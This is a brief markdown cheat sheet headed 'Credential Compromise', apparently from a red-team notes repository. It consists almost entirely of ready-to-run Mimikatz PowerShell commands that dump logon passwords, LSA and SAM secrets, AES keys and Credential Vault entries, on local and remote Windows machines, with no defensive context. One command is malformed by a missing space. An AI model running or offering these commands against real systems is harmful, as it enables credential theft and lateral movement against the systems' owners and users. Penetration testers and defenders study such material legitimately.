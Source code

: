 # Credential Compromise
> test

## Mimikatz

Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'
```

Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") 
```

logon password
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

AES cred
```powershell
Invoke-Mimikatz-Command '"sekurlsa::ekeys"'
```

Credential Vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```